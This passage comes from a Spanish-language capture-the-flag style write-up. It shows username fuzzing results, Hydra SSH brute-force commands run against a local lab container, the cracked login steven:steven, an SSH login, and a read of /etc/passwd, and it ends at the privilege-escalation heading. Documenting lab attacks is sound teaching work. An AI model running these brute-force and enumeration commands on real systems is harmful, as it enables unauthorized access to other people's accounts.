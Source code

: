```bash
diana                   [Status: 200, Size: 52, Words: 8, Lines: 5, Duration: 29ms]
paula                   [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 29ms]
alice                   [Status: 200, Size: 52, Words: 8, Lines: 5, Duration: 33ms]
ian                     [Status: 200, Size: 52, Words: 8, Lines: 5, Duration: 32ms]
nina                    [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 32ms]
quinn                   [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 28ms]
fiona                   [Status: 200, Size: 52, Words: 8, Lines: 5, Duration: 33ms]
```

Ahora que tenemos posibles usuario potenciales, Realizaremos un ataque de fuerza bruta por **ssh** con estos usuarios.
Para eso creamos un diccionario bajo en nombres de **users.txt**, Una ves almacenado ese archivo lo tratamos para solo quedarnos con los nombres
```bash
cat users.txt | awk $'{print $1}' | sponge users.txt
```

Ahora si iniciamos el ataque de fuerza bruta sobre **ssh**
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt.gz -f -t 4 ssh://172.17.0.2
```

Como no logramos con ese diccionario probamos de contrasenas nuestro diccionarioj:
```bash
hydra -L users.txt -P users.txt -f -t 4 ssh://172.17.0.2
```

Tenemos un usuario valido
```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: steven   password: steven
```

### Intrusion
Nos conectamos por **ssh**
```bash
# Reverse shell o acceso inicial
ssh steven@172.17.0.2 # steven
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enuemracion de usuarios del sistema:
cat /etc/passwd | grep "sh"
root:x:0:0:root:/root:/bin/bash
steven:x:1000:1000:steven,,,:/home/steven:/bin/bash
baluadmin:x:1001:1001:baluadmin,,,:/home/baluadmin:/bin/bash
```

### Explotacion de Privilegios
